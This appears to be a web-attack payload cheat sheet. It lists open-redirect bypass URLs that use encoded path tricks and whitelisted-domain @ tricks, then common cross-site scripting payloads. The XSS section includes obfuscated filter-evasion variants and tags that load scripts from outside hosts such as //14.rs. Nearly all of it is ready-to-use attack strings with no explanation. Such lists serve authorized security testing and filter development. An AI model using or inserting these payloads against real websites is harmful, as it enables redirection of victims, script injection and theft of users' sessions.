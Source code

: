 ```xml
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
```
#### [source](https://github.com/payloadbox/open-redirect-payload-list)
-------------------------------------------------------------------------------------------------------------

# XSS
### Common payloads
```xml
<img src=x>
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<embed src="javascript:alert(1)">
<img src="javascript:alert(1)">
<image src="javascript:alert(1)">
<script src="javascript:alert(1)">
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
```